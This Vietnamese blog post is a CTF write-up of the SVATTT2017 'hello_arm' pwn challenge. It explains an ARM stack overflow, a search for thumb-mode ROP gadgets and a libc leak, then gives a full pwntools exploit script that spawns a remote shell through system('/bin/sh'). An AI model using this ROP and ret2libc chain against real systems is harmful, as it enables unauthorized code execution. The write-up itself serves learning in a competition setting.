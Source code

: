 ```yaml
---
layout: post
title: "[SVATTT2017] [Pwn] hello arm"
---
```


Sau khi thọt ở vòng sơ khảo với bài formatstring. Mình đã phục thù với bài daemon **noteservice** . Nhưng lại ngã với bài **hello_arm.**... .

Trong buổi thi thì BTC có cho file img arm để tạo env debug. Xui làm sao hôm đó load file đó lại không ra mạng được, không setup được gdb. Mình down src gdb về build nhưng đến cuối lại bị failed. Thế là hôm đó quỳ với bài này... 

Về nhà mình đã tự build img arm và setup peda-arm để debug.

Link các challenges đã được VNSEC public : `https://docs.google.com/spreadsheets/d/e/2PACX-1vQ3hmA1FHf-a2uymoaXk8Cu8yvji_0mYI2EnPbmSzRHoiWMwPuLXj_OpaLcqEtYHYepcI3GG3rEIpEM/pubhtml?gid=0&single=true`



Check file: 

```
hello_arm.1: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=c81cfe892f89ccc0d55b9e5d4ec40048b00de0d6, stripped
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```



Quăng vào IDA thì dễ dàng thấy lỗi bof ở đây

```C
int sub_1054C()
{
  int v1; // [sp+0h] [bp+0h]

  puts("Overflow me.");
  read(0, &v1, 1024u); // <--- bof
  return puts("End");
}
```

![](https://i.imgur.com/fEKFqix.png)

ta thấy ins `SUB SP,SP, #0x80` với SP là reg stack pointer nên ta cần padding `0x84` để có thể overwrite địa chỉ trả về.

Bài này có bật ASLR trên server nên cần phải leak địa chỉ libc base trước. 

Để có thể leak được thì cần đưa địa chỉ GOT vào thanh ghi R0. Và cần một gadget dạng `pop {xxx,pc}` để đưa hàm cần gọi vào reg PC (program counter).

dùng ROPgadget để thử tìm gadget cần :

`ROPgadget --binary hello_arm`

`1051c:	e8bdb913 	pop	{r0, r1, r4, r8, fp, ip, sp, pc}` (popret)

nhưng không control được R0. 

Đến đây thì mình đã stuck. Nhưng chợt nhớ đến hint của BTC là **thumb2-mode** .

Sau khi tìm hiểu (`http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.ddi0344c/Beiiegaf.html` ) thì được biết rằng architecture **arm** có 3 loại instruction sets là : ARM thumb và thumb2. ARM dùng instruction 32-bit, thumb dùng instruction 16-bit và thumb2 32 bit mixing giữa 2 loại này (hỗ trợ thumb trên 32-bit và ARM). 

Vì mặc định của của ROPgadget sẽ không hiện các instruction thumb nên cần phải thêm options `--thumb`

`ROPgadget --thumb --binary hello_arm`

Ở đây có 2 gadget mình cần là :

`0x000105fc : pop.w {r3, r4, r5, r6, r7, r8, sb, pc} ; lsrs r2, r6, #4 ; movs r1, r0 ; lsrs r0, r5, #4 ; movs r1, r0 ; bx lr` (popR3)

`0x000105c6 : mov r0, r3 ; pop {r7, pc}` (movR0)

Payload mình sẽ là :

- popret 
- popR3
- got read
- mov R0 ,R3 
- plt puts
- return to main

```python
	payload=""
	payload+='B'*(0x80+4) 
	payload+= p32(popret+1)
	payload+="A"*4+ p32(popr3+1)
	payload+=p32(file.got['read']) # parameter
	payload+="A"*24
	payload+=p32(movr0+1)
	payload+="AAAA"
	payload+=p32(file.symbols['puts']) # call function
	payload+="BBBB"*7
	payload+=p32(ret2main+1)
```

Sau khi leak được libc, tiếp theo chỉ cần tính các offset binsh và system để call system("/bin/sh")

script : 

```python
from pwn import *

file = ELF('hello_arm.1')
libc = ELF('./libc-2.23.so')



def main(argv):
	if len(argv)<2:
		r = remote('localhost', 31335)
	else:
		r = remote('119.81.181.254',31335)

	ret2main = 0x0001054C

	r.recvuntil('Overflow me.\n')
	
	popret = 0x1051c
	# 1051c:	e8bdb913 	pop	{r0, r1, r4, r8, fp, ip, sp, pc}
	popr3=0x000105fc
	#0x000105fc : pop.w {r3, r4, r5, r6, r7, r8, sb, pc} ; lsrs r2, r6, #4 ; movs r1, r0 ; lsrs r0, r5, #4 ; movs r1, r0 ; bx lr
	movr0=0x000105c6
	#0x000105c6 : mov r0, r3 ; pop {r7, pc}
	
	#pause()
	
	payload=""
	payload+='B'*(0x80+4) 
	payload+= p32(popret+1)
	payload+="A"*4+ p32(popr3+1)
	payload+=p32(file.got['read'])
	payload+="A"*24
	payload+=p32(movr0+1)
	payload+="AAAA"
	payload+=p32(file.symbols['puts'])
	payload+="BBBB"*7
	payload+=p32(ret2main+1)
	
	r.sendline(payload)
	r.recvuntil("End")
	print r.recvline()

	libc.address=u32(r.recv(4))-libc.symbols['read']
	syst=libc.symbols['system']
	binsh=next(libc.search('/bin/sh\x00'))

	log.info("libc base : " + hex(libc.address))
	log.info("system : " + hex(syst))
	log.info("binsh : " + hex(binsh))

	
	payload=""
	payload+='B'*(0x80+4) 
	payload+= p32(popret+1)
	payload+="A"*4+ p32(popr3+1)
	payload+=p32(binsh)
	payload+="A"*24
	payload+=p32(movr0+1)
	payload+="AAAA"
	payload+=p32(syst)
	payload+="BBBB"*7
	payload+=p32(ret2main+1)
	
	r.recvuntil('Overflow me.\n')
	r.sendline(payload)

	r.interactive()

if __name__ == '__main__':
	main(sys.argv)
```



![a](https://i.imgur.com/aW7AlOQ.png)

Bài này cũng không khó, chủ yếu phải setup được môi trường ... hi vọng lần sau sẽ không ngã với arm nữa ...



